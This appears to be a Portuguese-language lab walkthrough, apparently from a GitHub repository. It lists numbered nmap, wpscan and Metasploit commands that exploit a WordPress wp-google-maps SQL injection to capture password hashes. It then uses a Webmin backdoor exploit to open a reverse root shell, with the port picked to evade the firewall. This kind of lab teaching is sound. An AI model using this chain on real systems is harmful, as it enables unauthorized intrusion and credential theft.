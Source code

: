 # First Pass Recon
```
1º sudo nmap -sS -T4 'Seu IP'
``` 

"Utilizar o IP do Kali para descobrir os outros dispostivos na rede, e assim saber os serviços que estão rodando."

'''
2º wpscan  —url ‘IP ALVO’
'''
"Utilizando o "wpscan", para assim levantar os plugins que estão rodando dentro da aplicação em questão. 
 Analisando então os plugins, pode-se localizar o plugin 'wp-google-maps'."

'''
3º sudo nmap -sV -p- -v -Pn 'IP ALVO' 
> -sV : Obtém a versão dos serviços rodando no alvo.
> -p- : Realiza um scanner em todas as 65535 portas.
> -v : Modo verboso.
> -Pn : Ignora o ICMP. 
'''
"Localize na saída analise os serviços utilizados pela aplicação e de atenção ao 'Webmin' 
 Dentro do terminal no Kali Linux utilize 'searchsploit webmin' Lista os exploits"

'''
4º sudo msfconsole
'''
"Fornece informações sobre vulnerabilidades de segurança e auxilia em testes de penetração e desenvolvimento de assinaturas IDS."

'''
5º msf5 > search wp-google-maps
'''
"Busca na ferramenta exploits para os plugins levantados no passo 2, localize o modo auxiliar para SQLinjection no wp-google-maps."

'''
6º msf5 > use 0  
'''
"Efetua no Metasploit o uso do auxiliar para SQLinjection."

'''
7º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Mostra as opções e quais dados devem ser setados no exploit."

'''
8º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO' 
rhosts ⇒ ip do alvo
'''
"Adiciona o IP do alvo ao exploit para SQLinjection" 

'''
9º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
'''
"Efetua o SQLinjection, trazendo no console que existe uma credencial salva no server, 
 capturando assim o ID e HASH da senha do usuário. 

'''
10º msf5 auxiliary (admin/http/wp-google-maps-sqli) > search webmin 
'''
"O MSF lista os exploits, no caso veja que foi encontrado o 'webmin password_change.cgi Backdoor', 
 exploit que será explorado nesse lab."

'''
11º msf5 auxiliary (admin/http/wp-google-maps-sqli) > use 2
'''
"Comando para iniciar o exploit que será utilizado."

'''
12º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Mostra todas as opções que se pode setar no exploit, mostrando também que já veio setado um 'payload' no caso em questão, 
 caso não viesse, o usuário deveria fazer o 'payload'."

'''
13º msf5 auxiliary (admin/http/wp-google-maps-sqli) > info 
'''
"Analisa as informações do exploit, mostrando a versão."

'''
14º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set forceexploit true 
'''
"Caso a versão seja diferente o comando 'force' faz com que o msf execute o exploit independente da versão." 

'''
15º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
'''
"Analise as informações a serem setadas, como no caso o 'rhosts, lhost, lport e ssl'."

'''
16º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO'
> rhost: IP DO ALVO (Para a conexão remota)
'''

'''
17º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lhost 'IP KALI' 
> lhost: IP KALI (Para receber a conexão reversa)
'''

'''
18º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lport 443
> lport: 443 (Número da porta onde irá simular a conexão com a web, evitar setar número alto para burlar o firewall.)
'''

'''
19º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set ssl true 
> ssl: TRUE (Confirma para que assim tenha a conexão)
'''

'''
20º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
'''
Após o msf5 abrir a sessão com o alvo, digite 'whoami' caso seja 'root' digite no terminal -> shell <- acesso realizado. 
